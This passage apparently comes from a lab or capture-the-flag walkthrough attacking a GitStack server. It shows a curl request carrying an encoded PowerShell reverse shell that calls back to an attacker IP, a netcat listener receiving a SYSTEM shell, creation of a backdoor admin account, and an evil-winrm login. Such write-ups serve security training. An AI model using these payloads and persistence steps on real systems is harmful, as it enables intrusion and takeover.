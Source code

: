 ```
┌──(root💀kali)-[/home/kali/Downloads]
└─# curl -X POST http://10.200.188.150/web/exploit-username.php -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.188.200%27%2C17777%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```

```
┌──(root💀kali)-[/home/kali/Downloads]
└─# nc -nlvp 1337                                                                                                                    1 ⨯
listening on [any] 1337 ...
connect to [10.50.185.100] from (UNKNOWN) [10.200.188.200] 39248
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

We are now connected to reverse shell from the gitstack system.

## Task 21 - Git Server Stabilisation & Post Exploitation

First we add a new admin account so we don't have to rely on the exploit.

```
PS C:\GitStack\gitphp> net user username password /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators username /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" username /add
The command completed successfully.
```

Next we access the box with evil-winrm

```
┌──(root💀kali)-[/home/kali/Downloads]
└─# evil-winrm -u username -p password -i 10.200.188.150                      

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\username\Documents> 
```
To connect over rdp I used the suggested xfreerdp.
